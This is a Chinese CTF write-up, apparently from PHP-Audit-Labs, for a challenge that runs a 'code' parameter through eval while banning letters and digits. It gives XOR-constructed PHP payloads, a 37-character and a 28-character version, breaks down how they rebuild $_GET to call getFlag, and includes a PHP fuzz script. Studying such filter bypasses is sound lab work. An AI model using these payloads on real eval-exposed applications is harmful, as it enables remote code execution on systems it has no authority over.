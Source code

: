 ![23](file:///E:/Users/Administrator.DESKTOP-L9N4RF9/Desktop/myPHP/php%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/%E7%BA%A2%E6%97%A5/PHP-Audit-Labs/PHP-Audit-Labs%E9%A2%98%E8%A7%A3/Day5-8/files/23.png?lastModify=1736413962)

这道题目实际上是考察不包含字母数字的webshell利用，大家可以参考 **phithon** 师傅的文章：[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html) ，我们只需要构造并调用 **getFlag** 函数即可获得flag。排除这里正则的限制，正常的想法payload应该类似这样（把上图代码中的正则匹配注释掉进行测试）：

```
index.php?code=getFlag();
index.php?code=$_GET[_]();&_=getFlag
```

![24](file:///E:/Users/Administrator.DESKTOP-L9N4RF9/Desktop/myPHP/php%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/%E7%BA%A2%E6%97%A5/PHP-Audit-Labs/PHP-Audit-Labs%E9%A2%98%E8%A7%A3/Day5-8/files/24.png?lastModify=1736413962)

我们现在再来考虑考虑如何绕过这里的正则。游戏规则很简单，要求我们传入的 **code** 参数不能存在字母及数字，这就很容易想到 **phithon** 师傅的 [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html) 一文。通过异或 **^** 运算、取反 **\~** 运算，构造出我们想要的字符就行。这里我们直接看 **payload** ：

```
?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
```

我们来拆解分析一下 **payload** ，**eval** 函数会执行如下字符串：

```
$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
拆解如下：        第1个GET请求参数：code                &     第2个GET请求参数：_
   $_="`{{{"^"?<>/";         ${$_}[_](${$_}[__]);     &     _=getFlag
   $_="_GET";                $_GET[_]($_GET[__]);     &     _=getFlag
                             getFlag($_GET[__]);
                             getFlag(null);
```

这个 **payload** 的长度是 **37** ，符合题目要求的 **小于等于40** 。另外，我 **fuzz** 出了长度为 **28** 的 **payload** ，如下：

```
$_="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$_();
```

![25](file:///E:/Users/Administrator.DESKTOP-L9N4RF9/Desktop/myPHP/php%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/%E7%BA%A2%E6%97%A5/PHP-Audit-Labs/PHP-Audit-Labs%E9%A2%98%E8%A7%A3/Day5-8/files/25.png?lastModify=1736413962)

这里也给出 **fuzz** 脚本，方便大家进行 **fuzz** 测试：

```
<?php
$a = str_split('getFlag');
for($i = 0; $i < 256; $i++){
    $ch = '{'^ chr($i);
    if (in_array($ch, $a , true)) {
        echo "{ ^ chr(".$i.") = $ch<br>";
    }
}
echo "{{{{{{{"^chr(28).chr(30).chr(15).chr(61).chr(23).chr(26).chr(28);
​
?>
```

![26](file:///E:/Users/Administrator.DESKTOP-L9N4RF9/Desktop/myPHP/php%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/%E7%BA%A2%E6%97%A5/PHP-Audit-Labs/PHP-Audit-Labs%E9%A2%98%E8%A7%A3/Day5-8/files/26.png?lastModify=1736413962)
